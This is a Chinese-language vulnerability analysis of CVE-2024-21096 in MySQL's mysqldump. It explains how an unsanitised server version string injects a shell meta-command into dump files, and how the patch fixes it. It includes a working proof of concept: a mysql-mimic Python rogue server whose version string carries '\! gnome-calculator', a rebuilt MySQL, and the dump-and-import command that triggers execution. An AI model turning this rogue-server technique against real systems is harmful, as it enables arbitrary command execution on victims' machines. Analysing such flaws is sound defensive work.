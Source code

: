 ```yaml
---
title: MySQLDump提权漏洞（CVE-2024-21096）分析报告
slug: mysqldump-privilege-escalation-cve-2024-21096-analysis-report
author: 裴伟伟
date: 2024-09-13 20:00
categories: 漏洞分析
tags:
  - MySQLDump
  - 提权
  - CVE-2024-21096
  - MySQL
  - 漏洞分析
  - 补丁与修复
---
```


CVE-2024-21096是一个中等严重性的漏洞，它影响Oracle MySQL Server产品中的mysqldump组件。成功利用此漏洞的未认证攻击者可能对MySQL Server的数据进行未授权的更新、插入或删除操作，还可以读取MySQL Server可访问数据的一部分，并可能导致MySQL Server部分拒绝服务（partial DOS）。利用该漏洞的攻击需要在MySQL Server的本地进行，因此利用条件有限，利用复杂性也较高，该漏洞主要影响8.0.0版本至8.0.36版本之间的MySQL Server。

## 漏洞原理

mysqldump是MySQL的一个组件，可以用于将 MySQL 数据库的数据和结构导出到一个文本文件中，该文件通常是 SQL 格式。这个文件随后可以被用来备份数据库、迁移数据或在另一个 MySQL 服务器上重建数据库。

比如用mysqldump导出MySQL数据库中的某个数据库，可以在MySQL Server本地用以下命令：

``` Bash
    mysqldump -u username -p database_name > dumpfile.sql
```

其中username是用户名，database\_name是待导出的数据库名称，导出之后得到dumpfile.sql文件。

导出后的SQL文件可以使用mysql命令执行导入操作，比如：

``` Bash
    mysql -u username -p database_name < /path/to/dumpfile.sql
```

导出和导入的操作可以理解为将数据库按照SQL语句解析导出为文件，再逐一执行SQL语句文件构建新的数据库。

问题在于，mysqldump在接收MySQL Server的信息时候没有对数据库版本等元信息（meta command）进行净化处理，攻击者可以构造恶意的元信息通过mysqldump导出，并在SQL文件导入的时候执行恶意代码。

这点可以查看2024年2月22日漏洞修复的代码变更情况获知：

![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402588760.3667869804015742.png)

在之前的版本（8.0.36）中，可以看到mysqldump在处理MySQL版本信息时只是通过mysql\_get\_server\_info(&mysql\_connection)获得版本信息并输出，而漏洞补丁中去除了这段代码，增加了get\_safe\_server\_info函数，该函数中做了两个主要的变更：

1.  通过SERVER\_VERSION\_LENGTH宏定义的60个字符限制版本信息的长度；
    
2.  检查版本信息中是否存在非法字符（非字符或标点服务），如果存在则抛弃非法字符并返回版本信息。
    
另外，在补丁中还可以看到为了测试补丁用到的测试攻击版本信息，即DBUG\_EXECUTE\_IF部分中的：

``` Bash
    8.0.0-injection_test\n\\! touch /tmp/xxx
```

## 漏洞利用

根据以上的漏洞原理，可知利用点是在MySQL的服务版本信息中，在服务版本信息中注入恶意代码之后，包含服务版本信息的SQL文件被MySQL执行后，便可以执行恶意代码。由于mysqldump和mysql命令联合执行或通过SQL文件执行的概率不高，因此CVE-2024-21096漏洞的CVSS评分不高，仅有4.9分，其中可利用性分数只有1.4分。

但漏洞的利用难点在于MySQL的版本信息是一个只读变量，是无法通过MySQL手动配置进行修改的，唯一的办法是通过源代码编译构建MySQL版本，在源代码中修改MySQL的版本信息，修改/include/mysql\_version.h文件中的MYSQL\_SERVER\_VERSION宏定义，比如：

![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402589500.6816522449416065.png)

笔者以8.0.34版本为例，通过手动修改版本信息，并编译MySQL，编译过程如下：

``` Bash
sudo apt-get update
sudo apt-get install build-essential cmake libncurses5-dev bison libssl-dev pkg-config
 
wget https://dev.mysql.com/get/Downloads/MySQL-8.0/mysql-8.0.34.tar.gz
tar xzvf mysql-8.0.34.tar.gz
cd mysql-8.0.34
 
mkdir build
cd build
cmake .. -DDOWNLOAD_BOOST=1 -DWITH_BOOST=..
 
make
sudo make install
```

上述命令执行完毕后，MySQL即编译安装完成，接下来是初始化MySQL数据库：

``` Bash
    sudo /usr/local/mysql/bin/mysqld --initialize --user=mysql --basedir=/usr/local/mysql --datadir=/usr/local/mysql/data
```

初始化期间会随机生成MySQL的root账户口令，重置口令之后通过show variables查看服务版本即可发现版本信息是修改后的内容：

![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402590160.7693465014865479.png)

假设受害者通过mysqldump连接上面修改版本信息之后的攻击机：

``` Bash
    mysqldump -h 192.168.2.217 -urepoog -p mysql
```

执行上述命令后即可看到版本信息是修改之后的内容：

![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402590840.5336056812256111.png)

在执行数据库导出和导入操作之后，版本信息中的命令就会得到执行，比如下面的命令：

``` Bash
    mysqldump -h 192.168.2.217 -urepoog -p pwndb | msyql -h 192.168.2.217 -urepoog -p pwndb_imp
```

![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402591530.5924137661964866.png)

当然，除了手动编译MySQL之外，也可以使用高交互的MySQL蜜罐项目进行更简单的配置和修改，比如使用mysql-mimic项目，该项目是用 Python编写的轻量级项目，它旨在模拟MySQL数据库的行为，它可以在不实际运行MySQL数据库的情况下，模拟MySQL的协议和行为，常用来做无MySQL实际环境下MySQL测试。

在蜜罐机上基于mysql-mimic库编写和运行以下代码，该代码中设置了MySQL的服务版本信息：

``` Python
import logging
import asyncio
from sqlglot.executor import execute
 
from mysql_mimic import MysqlServer, Session
from mysql_mimic.variables import GlobalVariables
  
SCHEMA = {
    "test": {
        "x": {
            "a": "INT",
        }
    }
}
 
TABLES = {
    "test": {
        "x": [
            {"a": 1},
            {"a": 2},
            {"a": 3},
        ]
    }
}
 
class MyVariables(GlobalVariables):
    def __init__(self):
        super().__init__()
        self.set("version", "8.0.0-injection-test\n\\! gnome-calculator", True)
 
class MySession(Session):
    def __init__(self):
        super().__init__()
        self.variables = MyVariables()
        self._functions["VERSION"] = "8.1.1"
 
    async def query(self, expression, sql, attrs):
        result = execute(expression, schema=SCHEMA, tables=TABLES)
        return result.rows, result.columns
 
    async def schema(self):
        return SCHEMA
 
 async def main():
    logging.basicConfig(level=logging.DEBUG)
    server = MysqlServer(session_factory=MySession)
    await server.serve_forever()
 
 if __name__ == "__main__":
    asyncio.run(main())
    
```

上述程序中设计的服务版本信息是8.0.0-injection-test\\n\\\\! gnome-calculator，蜜罐机的IP地址是172.23.189.209，攻击者（也是受害者）如果通过资产探测扫描到MySQL蜜罐，并通过mysqldump企图做数据库导出和导入，则会出现下图中的效果（弹出计算器）。
  
![](./mysqldump-privilege-escalation-cve-2024-21096-analysis-report/assets/17617402592260.8477364509440282.png)

## 修复方案

这个漏洞的利用条件非常有限，修复方法也非常简单，只需要升级最新版本的MySQL即可。

## 参考资料

https://media.defcon.org/DEF%20CON%2032/DEF%20CON%2032%20presentations/DEF%20CON%2032%20-%20Alexander%20Rubin%20Martin%20Rakhmanov%20-%20Atomic%20Honeypot%20A%20MySQL%20Honeypot%20That%20Drops%20Shells.pdf
